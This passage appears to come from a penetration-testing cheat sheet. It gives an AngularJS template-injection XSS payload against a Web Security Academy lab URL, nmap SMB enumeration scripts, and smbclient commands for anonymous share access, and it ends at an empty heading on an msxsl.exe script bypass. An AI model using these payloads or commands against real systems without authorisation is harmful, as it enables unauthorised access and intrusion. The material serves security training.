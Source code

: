 ```
https://0aae00d903ba322ec0211e0e00c700e3.web-security-academy.net/?search={{$on.constructor(%27alert(1)%27)()}}
```

# 19	SMB

## 19.1	ENUMERATION

### 19.1.1	NMAP

#### 19.1.1.1	-

```
nmap --script smb-os-discovery <IP>
```

#### 19.1.1.2	-

```
nmap --script smb-security-mode <IP>
```

## 19.2	CONNECTING

### 19.2.1	SMBCLIENT [22]

#### 19.2.1.1	-

```
smbclient -L <IP>
```

- Enter null password to login as anonymous
- This will show list of Shares and Servers

#### 19.2.1.2	-

```
smbclient \\\\<IP>\\<shareName>
```

- Enter null password to login as anonymous
- This will provide access to remote share

# 20	XSL SCRIPT BYPASS

## 20.1	USING MSXSL.EXE

### 20.1.1	 EXPLANATION

